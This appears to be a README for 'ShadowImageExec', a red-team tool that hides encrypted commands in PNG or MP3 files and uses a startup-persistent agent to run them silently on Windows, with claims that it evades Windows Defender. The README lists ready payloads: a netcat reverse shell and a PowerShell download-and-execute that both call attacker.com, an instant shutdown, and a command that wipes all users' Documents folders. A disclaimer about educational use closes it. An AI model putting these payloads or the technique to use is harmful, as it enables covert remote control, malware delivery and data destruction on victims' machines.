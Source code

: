 ShadowImageExec – StegoCrypto Auto Execution via Innocent Media Files

     New Red Team Attack Technique
     Created by: Kamron Saparbayev
     Codename: mai-attack
     Year: 2025
---
What is this?

ShadowImageExec is an advanced Red Team attack technique that enables the automatic execution of commands hidden within innocent-looking media files such as .png, .mp3, or .mp4.

The core idea is simple yet powerful: embed an encrypted command inside a media file and allow a passive background agent to automatically detect and execute it as soon as the file is downloaded to the target system — without any user interaction.
---

How the Attack Works
```text
Attacker (White-Hat or Black-Hat)
        │
        ├─▶ embed-stego.py
        │     ↓
        │  Encrypted Payload (exec:...)
        │     ↓
        └─▶ Sent via Telegram
              ↓
          Target Device (Windows)
              ↓
     danger.exe (in Startup folder)
              ↓
     Watches Downloads & Desktop
              ↓
   File arrives → Decrypt → Execute
```
---
As soon as the user downloads the file (e.g., from Telegram), the pre-installed danger.exe detects the new file, decrypts the hidden payload, and executes the command silently using Python’s subprocess.run() function.

This attack is zero-click, highly stealthy, and has been proven to bypass antivirus software due to the use of encryption and steganography.
---

This tool has been tested against Windows Defender (fully updated) and was not detected under the following conditions:

--danger.exe was added to the Startup folder

--Stego payloads were delivered via Telegram and downloaded to the Desktop

--Payloads were AES-128 encrypted and embedded into .png or .mp3 files

--The agent passively monitored folders and only executed on trigger

---
Real-World Danger Examples

🔻 Shutdown
```bash
exec:shutdown /s /t 0
```
🔻 Reverse Shell (Netcat)
```bash
exec:nc -e cmd.exe attacker.com 4444
```
🔻 PowerShell Downloader
```bash
exec:powershell -c "iwr -uri http://attacker.com/x.exe -OutFile x.exe; ./x.exe"
```
🔻 File Wiper
```bash
exec:del /S /Q C:\Users\*\Documents
```
---
## MITRE ATT&CK Mapping (with Links)

| Technique              | ID         |
|------------------------|------------|
| Command Execution      | [T1059](https://attack.mitre.org/techniques/T1059/)      |
| Data from Local File   | [T1005](https://attack.mitre.org/techniques/T1005/)      |
| Obfuscated Files       | [T1027](https://attack.mitre.org/techniques/T1027/)      |
| Startup Persistence    | [T1547.001](https://attack.mitre.org/techniques/T1547/001/)  |

---
 **Legal Disclaimer**

    This project is created for educational, Red Team, and CTF simulation purposes only.
    Any misuse of this tool is the responsibility of the user.
    Unauthorized use may be illegal and unethical.
